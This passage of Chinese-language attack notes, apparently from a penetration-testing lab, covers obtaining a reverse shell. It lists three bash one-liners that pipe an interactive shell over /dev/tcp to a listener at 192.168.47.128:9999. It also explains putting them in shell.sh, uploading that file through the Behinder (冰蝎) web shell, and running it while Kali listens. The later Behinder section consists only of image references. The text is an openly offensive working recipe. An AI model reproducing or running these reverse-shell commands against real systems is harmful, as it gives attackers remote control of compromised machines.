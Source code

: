 ```
bash -i >& /dev/tcp/192.168.47.128/9999 0>&1 
bash -i > /dev/tcp/192.168.47.128/9999 2>&1 0>&1 
bash -i < /dev/tcp/192.168.47.128/9999 2>&0 1>&0
```

bash一句话生成shell.sh

冰蝎上传 shell.sh 

Kali开启监听，同时运行shell.sh

```
chmod +x shell.sh   //添加可执行 bash shell.sh     //运行
```

![img](assets/1695034929525-18964c11-be81-4b80-a29a-50fbc5ee6c69.png)

------

## 冰蝎反弹shell

看图

![img](assets/1695034930064-82e2d68e-b5f0-4021-b608-10d69027ed06.png)
